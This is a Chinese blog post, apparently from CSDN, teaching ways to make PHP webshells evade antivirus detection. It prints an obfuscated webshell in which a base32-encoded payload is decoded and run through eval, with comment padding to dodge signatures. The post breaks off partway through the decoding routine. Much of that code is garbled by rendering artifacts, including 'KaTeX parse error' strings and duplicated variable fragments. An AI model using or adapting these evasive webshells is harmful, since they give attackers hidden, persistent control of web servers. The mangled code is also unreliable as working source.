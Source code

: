 ### 一些webshell[免杀](https://so.csdn.net/so/search?q=%E5%85%8D%E6%9D%80&spm=1001.2101.3001.7020)的技巧

-   [0x00：前言](https://blog.csdn.net/lza20001103/article/details/127907054#0x00_2)
-   [0x01：自定义加密Bypass](https://blog.csdn.net/lza20001103/article/details/127907054#0x01Bypass_4)
-   -   [ascii码移位payload（凯撒加密）](https://blog.csdn.net/lza20001103/article/details/127907054#asciipayload_63)
    -   [二进制转化payload](https://blog.csdn.net/lza20001103/article/details/127907054#payload_107)
-   [0x02：通过http获得关键参数](https://blog.csdn.net/lza20001103/article/details/127907054#0x02http_133)
-   [0x03：重写函数Bypass](https://blog.csdn.net/lza20001103/article/details/127907054#0x03Bypass_189)
-   [0x04：写在后面](https://blog.csdn.net/lza20001103/article/details/127907054#0x04_340)

## 0x00：前言

由于杀软的规则在不断更新 所以很多之前的过杀软方法基本上都不行了 而且随着php7逐渐扩张 assert马也将被淘汰 所以本文将提出几种免杀思路 效果很好 而且不会被杀软的正则和[沙盒](https://so.csdn.net/so/search?q=%E6%B2%99%E7%9B%92&spm=1001.2101.3001.7020)规则约束。

## 0x01：自定义加密Bypass

部分杀软会直接将一些编码函数如Base64、编码后的关键字或组合函数加入了规则 比如某dir+  
![在这里插入图片描述](https://img-blog.csdnimg.cn/9386c897a28840beb7cf302a66ee0881.png)  
比如这个 都能被检测出是shell

所以为了防止这种的规则 自定义加密显然是最优解

自定义加密可选性多了 只要能把加密后的字符还原回去就行 比如base32 base58 这类的base编码全家桶 或者自定义ascii移位 甚至是对称加密算法等都是可以绕过这类规则检测  
base32编码payload  
（https://github.com/pureqh/webshell）：

-   <?php

class KUYE{  
public $DAXW = null;

```
  public $LRXV = null;
  function __construct(){
  $this->DAXW = 'mv3gc3bierpvat2tkrnxuzlsn5ossoy';
  $this->LRXV = @SYXJ($this->DAXW);
  @eval("/*GnSpe=u*/".$this->LRXV."/*GnSpe=u*/");
  }}
```

new KUYE();  
function MNWK($QSFX){  
$BASE32\_ALPHABET = ‘abcdefghijklmnopqrstuvwxyz234567’;  
$NLHB = ‘’;  
$v = 0;  
v b i t s = 0 ; f o r ( vbits = 0; for ( vbits\=0;for(i = 0, j = s t r l e n ( j = strlen( j\=strlen(QSFX); $i < $j; $i++){  
$v <<= 8;  
v + = o r d ( v += ord( v+\=ord(QSFX\[$i\]);  
v b i t s + = 8 ; w h i l e ( vbits += 8; while ( vbits+\=8;while(vbits >= 5) {  
$vbits -= 5;  
$NLHB .= B A S E 3 2 A L P H A B E T \[ BASE32\_ALPHABET\[ BASE32ALPHABET\[v >> $vbits\];  
$v &= ((1 << KaTeX parse error: Expected 'EOF', got '}' at position 13: vbits) - 1);}̲} if (vbits > 0){  
$v <<= (5 - $vbits);  
$NLHB .= B A S E 3 2 A L P H A B E T \[ BASE32\_ALPHABET\[ BASE32ALPHABET\[v\];}  
return KaTeX parse error: Expected 'EOF', got '}' at position 6: NLHB;}̲ function SYXJ(QSFX){  
$NLHB = ‘’;  
$v = 0;  
v b i t s = 0 ; f o r ( vbits = 0; for ( vbits\=0;for(i = 0, j = s t r l e n ( j = strlen( j\=strlen(QSFX); $i < $j; $i++){  
v < < = 5 ; i f ( v <<= 5; if ( v<<=5;if(QSFX\[$i\] >= ‘a’ && Q S F X \[ QSFX\[ QSFX\[i\] <= ‘z’){  
